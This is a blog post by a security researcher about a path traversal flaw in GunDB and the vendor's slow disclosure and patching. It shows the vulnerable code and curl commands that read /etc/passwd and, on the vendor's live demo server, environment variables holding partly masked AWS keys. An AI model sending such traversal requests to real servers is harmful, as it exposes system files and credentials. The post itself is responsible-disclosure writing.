 ```yaml
---
date: "2020-01-20T14:30:00Z"
tags:
- infosec
title: Serious security vulnerability in GunDB (and new ones)
url: /2020/01/20/serious-security-vulnerability-in-gundb-and-new-ones/
---
```


Last year I discovered a
[serious security vulnerability](https://github.com/amark/gun/security/advisories/GHSA-886v-mm6p-4m66)
([path traversal](https://wiki.owasp.org/index.php/Relative_Path_Traversal)) that enabled
me to read any file on the server [GunDB](https://gun.eco/) runs in - I was even able to
steal AWS credentials from the demo server.


Discovery
---------

I was having a chat with a buddy of mine about how much I dislike JavaScript, and I
mentioned someone even built a database product with it. I also remember GunDB having
let's say.. "eccentric".. coding style. I went in to browse the code to provide an example.

Pretty much instantly I came upon
[this file](https://github.com/amark/gun/blob/0c02e7615a7c71bf45a7b2926c0ce8e8f1c64015/lib/serve.js#L27),
and at first I thought "huh, it looks like I can read any file, but no it couldn't be this simple..":

```js
var path = __dirname + '/../' + req.url.split('/').slice(2).join('/'), file;
try{file = require('fs').readFileSync(path)}catch(e){}
if(file){
	res.end(file);
	return true;
}
```

I tried `$ curl` and sure enough:

	$ curl --path-as-is http://localhost:8765/gun/../etc/passwd
	root:x:0:0:root:/root:/bin/ash
	bin:x:1:1:bin:/bin:/sbin/nologin
	...

The `--path-as-is` is needed so CURL doesn't normalize the path to `/etc/passwd` - remember
this because this'll come back later in this post.

They also had a demo instance of GunDB running in Heroku, so I tried it also:

	$ curl --path-as-is http://gunjs.herokuapp.com/gun/../proc/self/environ
	DYNO=web.1
	AWS_S3_BUCKET=gunjs.herokuapp.com
	AWS_ACCESS_KEY_ID=AKIAJUFG...
	AWS_SECRET_ACCESS_KEY=GF55d...
	...

My jaw hit the floor. I was this easily able to steal their AWS credentials. Knowing their
security practices, I fear those were AWS root keys and I could've done some serious damage.

This is where I stopped exploring - obviously I didn't want to attack any actual users.


Disclosure
----------

I had to research about
[responsible disclosure](https://en.wikipedia.org/wiki/Responsible_disclosure).

I contacted the vendor, Mark. He seems like a nice person, and was appreciative of my
disclosure. I told I didn't use the AWS keys I got ahold of, but that they should be
considered compromised and revoked ASAP.

We had some back-and-forth with suggestions on how to handle it.

The thing I didn't appreciate was that the vendor's disclosure idea was hiding it deep
inside the documentation hierarhy under a link named "curl --path-as-is" (see
[now-removed document](gundb-curl-as-is.pdf)). I explained:

> Thoughts about the document:
> 
> - The entire point is for as big part of GUN's userbase as possible to find and understand the problem, so they can protect themselves by updating.
> - Title is the most important part of a page. "curl --path-as-is" as a title looks like "meh, I don't care" to any possible users - they won't open the page.
> - How can users find this security advisory page from the documentation? I didn't find it from the page hierarchy.
> - "Who Was Effected? Only people using a NodeJS server with something like ..." is downplaying the issue. Your list basically includes all of the server-side usecases of GUN. Maybe people who only use parts of GUN as a library in their apps aren't vulnerable - but those would be really rare exception.
> - I'd recommend you use GitHub's security advisory feature to publish this, so it has the maximal chance of warning people who still haven't upgraded.

After this the vendor implemented my suggestions (and some additional ones):

- [GitHub security advisory](https://github.com/amark/gun/security/advisories/GHSA-886v-mm6p-4m66)
- [Twitter tweet](https://twitter.com/marknadal/status/1136014285799215104)
- He said he also announced about it in a chat room


Somebody had actually reported this before
------------------------------------------

JK0N had actually discovered this and
[offered a ready fix](https://github.com/amark/gun/pull/527) on a silver plate before, but
vendor "did not understand the --path-as-is condition" and clearly didn't understand how
serious this vulnerability is.


Not updating the Docker image
-----------------------------

GunDB's GitHub frontpage advertizes Docker as a first-class citizen:

![](gundb-docker.png)

.. so I find it reckless that 150+ days since my disclosure,
[the Docker image was still vulnerable](https://github.com/amark/gun/issues/812). There's
nothing wrong if
[the project maintainer doesn't know how to work with Docker](https://github.com/amark/gun/issues/812#issuecomment-530046388),
but it's very wrong to let your users think Docker channel is supported and maintained, and
keep distributing serious vulnerability for 150+ days.

The very least I would've expected the maintainer to do is to stop advertizing the Docker
channel as a first-class citizen if serious vulnerabilities come by and are not fixed.
Even better would have been to put up a warning sign saying that Docker channel is unmaintained.


More vulnerabilities
--------------------

Now that I finally got around to writing this post, I decided to take one more glance to
see if there are more glaring security problems, and sure enough under 90 minutes I discovered
and filed more issues:

- [Arbitrary file read vulnerability under GUN root directory](https://github.com/amark/gun/issues/881) -
  **the whole database's raw on-disk files are world-readable**.
- [Same unfixed vuln that this blog post is about in another file (example websocket server)](https://github.com/amark/gun/issues/880)
- Vulnerability in Gist linked from README which might be artefact of people copy-pasting
  original vulnerable code around - made worse by this Gist being publicized in README.
  (I mentioned this in above linked issue's description).

Who knows how much issues there are, when security is thought of as a cost center.


Conclusion
----------

When I reported the bug, I recommended to have a security person review the fix before it's
published. The vendor said he didn't know any.

I find it odd that a project with
[practically one programmer](https://github.com/amark/gun/graphs/contributors) and
[2.6 million USD in funding](https://www.crunchbase.com/organization/gun-2) (that we know
of) can't afford to have a security-conscious person in the team OR have audits done.
Security should be important,
especially if the vendor is boasting that users include
[the Dutch Navy](https://techcrunch.com/2018/05/23/gun-raises-more-than-1-5m-for-its-decentralized-database-system/)
or the [Internet Archive](https://www.bleepingcomputer.com/news/technology/archiveorg-has-created-a-decentralized-or-dweb-version-of-their-site/).

In summary, this happened:

- There was a serious vulnerability (which in itself is fine - these things happen)
- Vendor downplayed said vulnerability and didn't properly reach out to users
- Vendor left one of the first-class citizen distribution channels vulnerable for 150+ days
- Someone had reported and offered a fix on a silver plate, but vendor did not understand
- I feel like I had to do a lot of hand-holding to get users secured - which should not be
  my job, especially since I was not compensated in any way.
- There still are unfixed vulnerabilities of same type (path traversal) in other parts of code.
- Just a cursory glance revealed more serious vulnerabilities.

Therefore I would conclude: if security is important to you, I don't recommend using GunDB.
If you really need to use GunDB, you yourself should have an in-house security person to
secure GunDB, because the vendor doesn't make security a priority.


Timeline
--------

| T±   | Action |
|------|--------|
| -364 days | Someone else had discovered (and offered a fix to) the bug |
| -0 days   | I discovered the bug (2019-04-09) |
| +0 days   | I disclosed it to the vendor |
| +0 days   | Vendor replied |
| +5 days   | Vendor had a patch (2019-04-14) |
| +55 days  | Vendor disclosed it by hiding it deep in the docs and downplaying it (2019-06-03) |
| +57 days  | Vendor disclosed in more public fashion due to my suggestion |
| +154 days | Vendor still hadn't updated their official Docker image (2019-09-10) |


Further reading
---------------

- [Recent really serious Citrix path traversal vulnerability codenamed "Shitrix"](https://www.zdnet.com/article/proof-of-concept-code-published-for-citrix-bug-as-attacks-intensify/)
